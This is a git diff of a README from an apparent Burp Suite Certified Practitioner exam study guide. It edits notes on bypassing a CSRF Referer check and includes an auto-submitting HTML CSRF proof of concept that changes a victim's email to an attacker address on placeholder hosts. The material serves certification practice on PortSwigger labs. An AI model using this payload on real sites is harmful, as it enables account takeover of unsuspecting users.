

Burp Suite Certified Practitioner Exam
Burp Suite Certified Practitioner Exam

diff --git a/README.md b/README.md
@@ -1434,7 +1434,7 @@ Referrer-Policy: unsafe-url
   
 ### Referer Header Present  
 
->In the update email request when changing the `referer` header the response indicate `Invalid referer header`, ***identifying*** CSRF vulnerability. Using the `<meta name="referrer" content="no-referrer">` as part of the exploit server CSRF PoC this control can be bypassed.  
+>In the update email request when changing the `referer` header the response indicate `Invalid referer header`, ***identifying*** CSRF vulnerability. Using the `<meta name="referrer" content="no-referrer">` as part of the exploit server CSRF PoC this control can be bypassed. This instruct the exploit server to Deliver Exploit to victim without `referer` header.  
 
 ```html
 <html>
@@ -1442,7 +1442,7 @@ Referrer-Policy: unsafe-url
   <body>
 <meta name="referrer" content="no-referrer">
     <form action="https://TARGET.net/my-account/change-email" method="POST">
-      <input type="hidden" name="email" value="hackers&#64;EXPLOIT&#46;NET" />
+      <input type="hidden" name="email" value="administrator&#64;EXPLOIT&#46;NET" />
       <input type="submit" value="Submit request" />
     </form>
     <script>
@@ -1452,6 +1452,8 @@ history.pushState('', '', '/');
   </body>
 </html>
 ```  
+
+>This is interactive exploit and in BSCP exam if the stage 1 exploit was non interactive then this can be used to obtain administrator interaction by her clicking on the link to change their password. Note to check the `source code` of the change email page for any additional form id values.  
 
 ![csrf referer present](images/csrf-referer-present.png)  
 
@@ -3195,7 +3197,7 @@ CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
 ![MicahVanDeusens-blog](images/MicahVanDeusens-blog.png)  
   
 >The image below is my view of possible vulnerabilities ***identified*** and exploitation to reach the next BSCP exam stage and progress through the exam challenges.  
->I have managed green, orange I am struggling and need to find similar lab challenges to practice, and red to be seen.  
+>I have managed solved the challenges in green using [PortSwigger Academy Labs](https://portswigger.net/web-security/all-labs), but we never stop learning......  
 
 ![Three stages](images/3stages.png)  
   
